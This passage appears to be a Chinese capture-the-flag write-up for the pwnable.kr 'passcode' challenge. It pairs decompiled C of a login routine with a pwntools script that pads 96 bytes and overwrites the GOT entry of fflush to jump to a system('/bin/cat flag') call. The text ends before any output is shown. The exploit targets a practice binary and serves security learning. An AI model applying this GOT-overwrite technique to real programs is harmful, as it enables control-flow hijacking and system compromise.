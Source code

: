 login:
​    

```
int login()
{
  int v1; // [sp+18h] [bp-10h]@0
  int v2; // [sp+1Ch] [bp-Ch]@0

  printf("enter passcode1 : ");
  __isoc99_scanf("%d");
  fflush(stdin);
  printf("enter passcode2 : ");
  __isoc99_scanf("%d");
  puts("checking...");
  if ( v1 != 338150 || v2 != 13371337 )
  {
puts("Login Failed!");
exit(0);
  }
  puts("Login OK!");
  return system("/bin/cat flag");
}

```

呐，可以看到name的偏移为[bp-70],passcode1为[bp-10],两个变量之间的偏移相差了0x60,好了，可以开始编写exp了：
​    

```
from pwn import*

ssh = ssh(host='pwnable.kr',user='passcode',password='guest',port=2222)

io = ssh.process('./passcode')

bin = ELF('./passcode')

payload = 96*'A'

payload += p32(bin.got['fflush'])

io.recv()

io.sendline(payload)

io.recv()

io.sendline(str(0x080485E3)) #system("/bin/cat flag");

print io.recv()
```

执行：
